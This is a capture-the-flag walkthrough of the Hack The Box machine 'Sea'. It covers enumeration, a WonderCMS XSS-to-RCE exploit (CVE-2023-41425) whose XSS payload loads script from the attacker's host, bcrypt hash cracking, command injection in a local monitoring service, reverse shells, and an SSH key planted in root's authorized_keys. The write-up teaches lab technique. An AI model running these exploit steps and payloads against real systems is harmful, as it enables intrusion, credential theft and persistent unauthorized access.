## INITIAL ENUMERATION

```shell
nmap -sV -sC 10.129.156.56
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-29 15:13 EST
Nmap scan report for 10.129.156.56
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sea - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds

```


## WEB

Visiting the 80 port I see this page:




The “How To Participate” link leads to `/how-to-participate`:



Nothing too interesting on that page, other than a link to “contact”, which leads to `sea.htb/contact.php`.

I’ll add `sea.htb` to my `/etc/hosts` file:

```
10.10.11.28 sea.htb
```

I’ll also do a quick `ffuf` run to fuzz subdomains that respond differently, but not find any.

Now able to resolve the site, the contact form loads:


On submitting the form, it shows it was submitted:


I'll run `dirb` against the site:


The `theme/bike` directory has some files worth checking out. I stared down this road thinking it would be cool to identify the exact theme, but it turns out to be a necessary step to exploiting the intended path on the box.

`theme.php` returns an empty page when visited directly. That makes sense, as it’s likely meant to be included in the main pages.

`version` return “3.2.0”. `LICENSE` shows the theme uses the MIT license:



I can extract the version of the theme:

```shell
curl -s http://sea.htb/themes/bike/version

3.2.0
```


Searching on google I found an RCE on Github https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE

To use this exploit, I need to know the login URL for WonderCMS. There are a lot of ways to figure this out. Forum posts like [this one](https://www.wondercms.com/community/viewtopic.php?t=1053) makes reference to `/loginURL`:



When I visit `/loginURL` (or `/index.php?page=loginURL`), it loads the template with the login form in the content page:



To show this works, I’m going to launch the python exploit:

```shell
python CVE-2023-41425.py -rhost http://sea.htb/loginURL -lhost 10.10.16.6 -lport 9001 -sport 8080
[+] Set up a nc listener: nc -lnvp 9001
[+] Send the xss URL to the victim: 
http://sea.htb/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.16.6:8080/xss.js"></script><form+action="
[+] Serving at http://10.10.16.6:8080

[+] Set up a nc listener: nc -lnvp 9001
[+] Send the xss URL to the victim: 
http://http://10.129.213.84/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.16.6:8080/xss.js"></script><form+action="
[+] Serving at http://10.10.16.6:8080
```

And set up `nc`:

```shell
nc -lnvp 9001
listening on [any] 9001 ...

```

The idea is that it gets put into a `form`, which the payload then closes, creates a `script` tag loading JavaScript from my host, and then starts a new form so that all the HTML is valid.

I’ll submit this in the contact form:



In about a minute, I can see:

```shell
python CVE-2023-41425.py -rhost http://sea.htb/loginURL -lhost 10.10.16.6 -lport 9001 -sport 8080
[+] Set up a nc listener: nc -lnvp 9001
[+] Send the xss URL to the victim: 
http://sea.htb/loginURL/index.php?page=loginURL?"></form><script+src="http://10.10.16.6:8080/xss.js"></script><form+action="
[+] Serving at http://10.10.16.6:8080
10.129.213.84 - - [30/Nov/2025 10:17:23] "GET /xss.js HTTP/1.1" 200 -
10.129.213.84 - - [30/Nov/2025 10:17:33] "GET /shell.zip HTTP/1.1" 200 -
10.129.213.84 - - [30/Nov/2025 10:17:33] "GET /shell.zip HTTP/1.1" 200 -
10.129.213.84 - - [30/Nov/2025 10:17:33] "GET /shell.zip HTTP/1.1" 200 -
10.129.213.84 - - [30/Nov/2025 10:17:34] "GET /shell.zip HTTP/1.1" 200 -
```

And my `nc`:

```shell
nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.6] from (UNKNOWN) [10.129.213.84] 52864
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sea:/var/www/sea/themes/shell$
```

From here I found a passoword into `database.js` file located at `/var/www/sea/data`

```shell
www-data@sea:/var/www/sea/data$ cat database.js
cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2025\/11\/30 09:17:13": "127.0.0.1",
            "2025\/11\/30 09:15:04": "127.0.0.1",
            "2025\/11\/30 09:11:54": "127.0.0.1",
            "2025\/11\/30 09:10:54": "127.0.0.1",
            "2024\/07\/31 15:17:10": "127.0.0.1"

<snip>
```

It is a bcrypt password. I can crack it with hashcat:

```shell
echo '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt
```

```shell
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-11th Gen Intel(R) Core(TM) i5-11600K @ 3.90GHz, 1672/3409 MB (512 MB allocatable), 4MCU
<snip>

$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance

<snip>

```

Looking at `/home` directory I found 2 user:

```shell
www-data@sea:/var/www/sea$ cd /home
www-data@sea:/home$ ls
amay
geo
www-data@sea:/home$ 
```

`geo` failed to connect by SSH, I'll try `amay` user:

```shell
sh amay@sea.htb
The authenticity of host 'sea.htb (10.129.213.84)' can't be established.
ED25519 key fingerprint is SHA256:xC5wFVdcixOCmr5pOw8Tm4AajGSMT3j5Q4wL6/ZQg7A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sea.htb' (ED25519) to the list of known hosts.
amay@sea.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 14 Aug 2024 03:25:50 PM UTC

  System load:  0.24              Processes:             248
  Usage of /:   60.6% of 6.51GB   Users logged in:       0
  Memory usage: 5%                IPv4 address for eth0: 10.10.11.28
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Aug  5 07:16:49 2024 from 10.10.14.40

amay@sea:~$ 

```

## USER FLAG

And I get user flag:

```shell
amay@sea:~$ cat user.txt
ba0b1ac63fc442ab965a2216ab04428f
```

## ROOT FLAG

From here I checked the sudo privileges, the crontab ecc..,but nothing. So there are two services listening only on localhost, TCP 8080 and 36695:

```shell
amay@sea:/$ netstat -tunl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:36695         0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                      
```

I’ll reconnect my SSH session with the `-L 8080:localhost:8080` option to tunnel so that my VM localhost listens on 8080 and forwards that through the SSH session to 8080 on Sea.

Visiting `http://localhost:8080` pops the HTTP basic auth prompt:



The creds for amay, “mychemicalromance”, work here as well:



I’ll notice in the log file read it’s left to the user to specify what file to request. While there are only two in the dropdown menu:



There’s nothing to stop an attacker from changing that request. I’ll send one of these requests to Burp Repeater and edit the parameter to point to `/etc/passwd`:


It works to some degree, but only select lines from `/etc/passwd` are returned. I can try to read the flag:



Some tweaking around with the injection will show output. In this case, I’ll adding “ #” after the command, so that anything else on the line is commented out:


I’ll update my payload to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):



On sending, I get a shell at my listening `nc`:

```shell
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.129.213.84] 51492
bash: cannot set terminal process group (7032): Inappropriate ioctl for device
/bash: no job control in this shell
root@sea:~/monitoring# exit
```

However, a few seconds after connecting, it types `exit` into the shell and exits.

There is a `.ssh` directory in `/root`:



It only has an `authorized_keys` file, no keys:



I’ll create an SSH key pair and host the public key on a Python webserver:

```shell
ssh-keygen -t ed25519 -f ed25519_gen
Generating public/private ed25519 key pair.
ed25519_gen already exists.
Overwrite (y/n)? y
Enter passphrase for "ed25519_gen" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ed25519_gen
Your public key has been saved in ed25519_gen.pub
The key fingerprint is:
SHA256:OnQETTk7DtNYV8Rm8O4Fpi3thPOy48kLScjHR6kXD5A root@kali
The key's randomart image is:
+--[ED25519 256]--+
|      .ooo.=o    |
|       .E..o+    |
|       +.+=o+    |
|     .+++o @ .   |
|      ++S.B * .  |
|     . =.+ B .   |
|      o o . +    |
|       . o.+     |
|         .*o     |
+----[SHA256]-----+
```


 Then I’ll fetch it and add it to `authorized_keys`:



Now I can connect over SSH using that key as root:

```shell
ssh -i ed25519_gen root@sea.htb
Enter passphrase for key 'ed25519_gen': 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 30 Nov 2025 10:32:13 AM UTC

  System load:  1.23              Processes:             255
  Usage of /:   63.7% of 6.51GB   Users logged in:       1
  Memory usage: 17%               IPv4 address for eth0: 10.129.213.84
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Aug 14 15:25:51 2024
root@sea:~# 

```

And read `root.txt`:

```shell
root@sea:~# cat root.txt 
1710ae1545ff4e2f4a74de66a5d9ea27
```

